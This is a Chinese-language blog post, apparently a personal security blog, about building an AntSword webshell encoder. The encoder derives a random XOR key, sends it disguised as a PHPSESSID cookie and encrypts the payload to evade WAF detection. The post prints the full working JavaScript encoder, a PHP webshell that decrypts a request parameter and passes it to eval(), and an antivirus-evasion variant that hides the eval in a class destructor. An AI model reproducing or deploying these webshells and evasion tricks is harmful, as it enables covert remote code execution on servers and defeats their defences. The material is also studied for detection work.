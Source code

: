 # 基于随机Cookie的蚁剑动态秘钥编码器


<meta name="referrer" content="no-referrer" />

## 前言

在上一篇[蚁剑实现动态秘钥编码器解码器](https://yzddmr6.tk/posts/antsword-xor-encoder/)中，本人为了规避握手交换秘钥的特征，采用了利用时间生成随机秘钥的办法。

但是在实际使用的过程中还是会出现各种各样的玄学BUG，导致利用失败，我个人不是特别满意。

研究了一下蚁剑编码器的ext参数后，决定采用利用随机Cookie来产生随机秘钥的方式。

## 正文

### 编码器的ext参数

本来一直等蚁剑作者写编码器的第三篇，结果一直没等到。。。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900383257-4f526489-5d72-4d99-85fe-6fd0a21d5bce.png)

算了还是自己研究一下吧

首先新建一个编码器，名字叫test吧

加入一行`console.log(ext.opts.httpConf);`

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900383556-dc1b8f50-2c79-4b70-8688-4d1dcfde8009.png)

然后随便连接一个shell，打开开发者工具，可以看到已经打印出了我们所需要的信息

包括shell请求的body跟headers头

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900383693-02eff20b-7976-43ed-b530-867b34466f31.png)

抓包看一下，headers头的结果跟抓包的结果是一致的

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900383822-a4f99bd7-4668-4120-b9b1-12b478515a0a.png)

那么我们能否从编码器中修改headers头呢

我们在编码器中加入一行

```
ext.opts.httpConf.headers['User-Agent']='yzddMr6';
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900384241-8e165fa5-267c-44ac-9d1c-fd685952ddbf.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900384562-d81a4364-b3b7-4382-89a0-050233151245.png)

可以看到我们已经成功修改了shell中UA的值。

同理，我们也可以在编码器中对其他header头或者body进行修改。

### 随机生成Cookie

既然我们已经可以任意修改shell的请求信息，我们就可以把秘钥放在一个指定的headers字段里，shell获取后再对payload进行加解密。

但是突然多出来一个奇奇怪怪的字段，长时间后就会变成waf识别的特征。

那么有没有什么是变化的，并且很常见的headers头呢？

我们就可以想到利用Cookie。

参考蚁剑的aes编码器，它所采用的方法是人工首先访问shell生成一个sessionid，填入shell配置后作为后面通讯的秘钥。

但是实际上因为我们已经可以控制cookie字段，我们完全可以在编码器中每次生成一个随机的cookie，这样就省去了人工操作的一步。

有一个坑要注意，php的session id一般是26位的，所以我们最好也生成一个26位的秘钥，增强伪装性。（虽然可能并没有什么卵用）

### 具体实现

#### 编码器

```
'use strict';
//code by yzddmr6
module.exports = (pwd, data, ext = {}) => {
  let randomID = `x${Math.random().toString(16).substr(2)}`;
  function xor(payload) {
    let crypto = require('crypto');
    let key = crypto.createHash('md5').update(randomID).digest('hex').substr(6);
    ext.opts.httpConf.headers['Cookie'] = 'PHPSESSID=' + key;
    key = key.split("").map(t => t.charCodeAt(0));
    //let payload="phpinfo();";
    let cipher = payload.split("").map(t => t.charCodeAt(0));
    for (let i = 0; i < cipher.length; i++) {
      cipher[i] = cipher[i] ^ key[i % 26]
    }
    cipher = cipher.map(t => String.fromCharCode(t)).join("")
    cipher = Buffer.from(cipher).toString('base64');
    //console.log(cipher)
    return cipher;
  }
  data['_'] = Buffer.from(data['_']).toString('base64');
  data[pwd] = `eval(base64_decode("${data['_']}"));`;
  data[pwd]=xor(data[pwd]);
  delete data['_'];
  return data;
}
```

#### Shell原型

```
<?php
@$post=base64_decode($_REQUEST['test']);
$key=@$_COOKIE['PHPSESSID'];
for($i=0;$i<strlen($post);$i++){
    $post[$i] = $post[$i] ^ $key[$i%26];
}
@eval($post);
?>
```

#### 免杀处理

```
<?php
class Cookie
{
    function __construct()
    {
        $key=@$_COOKIE['PHPSESSID'];
        @$post=base64_decode($_REQUEST['test']);
        for($i=0;$i<strlen($post);$i++){
            $post[$i] = $post[$i] ^ $key[$i%26];
        }
        return $post;
    }
    function __destruct()
    {return @eval($this->__construct());}
}
$check=new Cookie();
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900384760-56a49e0f-5695-415a-83b6-978d4d8242ef.png)

### 连接测试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900384896-5cca44f3-be28-4bf6-8cd0-b7a9cfb5d049.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900385035-26886543-d3e7-4c2c-ac82-238dffc241d1.png)

## 最后

还是老问题，蚁剑的其他参数只是一层base64，这个就需要大家自己手工去改了。

蚁剑牛逼！
